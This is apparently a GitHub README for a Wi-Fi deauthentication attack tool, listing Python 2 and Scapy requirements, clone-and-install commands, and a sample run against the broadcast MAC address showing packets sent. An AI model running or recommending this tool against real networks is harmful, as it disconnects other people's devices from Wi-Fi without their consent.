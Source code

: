 # Wi-Fi-Deauthentication-Attack

## Requirements

**Python2.x**

**Scapy library**

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack-Tool
cd Wi-Fi-Deauthentication-Attack-Tool
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```


